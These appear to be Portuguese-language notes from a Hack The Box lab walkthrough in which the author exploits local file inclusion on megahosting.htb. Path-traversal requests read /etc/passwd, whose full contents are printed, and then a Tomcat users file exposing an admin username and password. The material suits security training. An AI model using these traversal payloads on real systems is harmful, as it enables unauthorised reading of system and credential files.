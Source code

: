 /usr/share/doc/tomcat9-common/RUNNING.txt.gz

/etc/tomcat9/tomcat-users.xml.

Esse site tem  LFI

https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/


Por isso entendi o por que dos paths dentro da porta 8080

exemplo:

megahosting.htb/news.php?file=../../../../etc/passwd

```bash
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false sshd:x:111:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false tomcat:x:997:997::/opt/tomcat:/bin/false mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false ash:x:1000:1000:clive:/home/ash:/bin/bash 
```

agora consigo ver dentro desses paths que ele deu a dica lá atrás

/var/lib/tomcat9/webapps/ROOT/index.html

/var/lib/tomcat9

/usr/share/doc/tomcat9-common/RUNNING.txt.gz

/etc/tomcat9/tomcat-users.xml.

```bash
http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
```

Inspecione a págna para ver os atributos de acordo com a documentação do LFI


```bash
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

